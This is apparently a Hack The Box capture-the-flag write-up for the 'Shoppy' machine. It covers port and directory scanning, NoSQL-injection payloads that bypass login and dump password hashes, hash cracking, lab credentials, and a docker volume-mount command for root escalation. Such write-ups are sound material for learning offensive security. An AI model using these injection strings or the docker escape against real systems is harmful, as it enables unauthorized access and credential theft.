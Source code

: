 # Shoppy 

Shoppy is an easy Hackthebox machine. That uses noSQLi to get a foothold. Then use a binary file to get credits for the user deploy. From there using docker get root access. 


# Recon
```
nmap -sC -sV 10.10.11.180
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-07 11:49 EST
Nmap scan report for 10.10.11.180
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.91 seconds
```

Port 80 gives a redirect to shoppy.htb. To see the webpage you need to link the ip 10.10.11.180 to shoppy.htb. 
To do this you need to update the /etc/hosts file with the ip address and hostname. Port 22 is also open on hackthebox this isn't a attck vector. 

To scan the webpage for directories and virtual hosts we use gobuster.

``` 
gobuster vhost -u http://shoppy.htb -w /usr/share/wordlists/subdomains.txt
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://shoppy.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/subdomains.txt
[+] User Agent:      gobuster/3.2.0-dev
[+] Timeout:         10s
[+] Append Domain:   false
===============================================================
2022/11/07 11:52:37 Starting gobuster in VHOST enumeration mode
===============================================================
Progress: 4865 / 4998 (97.34%)
===============================================================
2022/11/07 11:52:51 Finished
===============================================================


gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2022/11/07 11:53:16 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/images               (Status: 301) [Size: 179] [--> /images/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/login                (Status: 200) [Size: 1074]
/Login                (Status: 200) [Size: 1074]
Progress: 4505 / 4615 (97.62%)
===============================================================
2022/11/07 11:53:31 Finished
===============================================================
```

It looks like there are no virtual hosts. There are a couple of directories. /login seems to be interesting. 
When we are logged in with the correct account we have access to /admin page. 

# Foothold

We try if it's vulnerable for SQLi or noSQLi by entering a '. SQL map gives no results. We try for noSQi [hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection) is a good source to try for this.

The query `admin' || ' or 1==1:abc` gives login bypass. This gives access to the admin platform. 

In the search bar we try again for nosqli and it apears that the page crashes when a single quote is entered. The query `a' || ' 1==1 ` gives an export: 

[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},
{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]

We enter this into hashcat and get the password of josh `josh:remembermethisway`. We try to use this for an ssh connection, this fails. 

In the chat we find that the user jaeger has access to the machine. The password is also shown in the chat `jaeger:Sh0ppyBest@pp!`. 
Now we have ssh access into the machine. 

# Priv esq
We have the password of jaeger so we can check sudo -l.

```
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

We have access to the binary password-manager with sudo rights. Strings shows that the binary reads /home/deploy/creds.txt.
We analyse the binary using r2 we find Sample as the password tha manager needs. Now we have the credentials `deploy:Deploying@pp!`.

Now we use docker to get root access. We lookup docker on [gtfobins](https://gtfobins.github.io/gtfobins/docker/) and this gives us the command `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`.

Now we have root access to the machine.









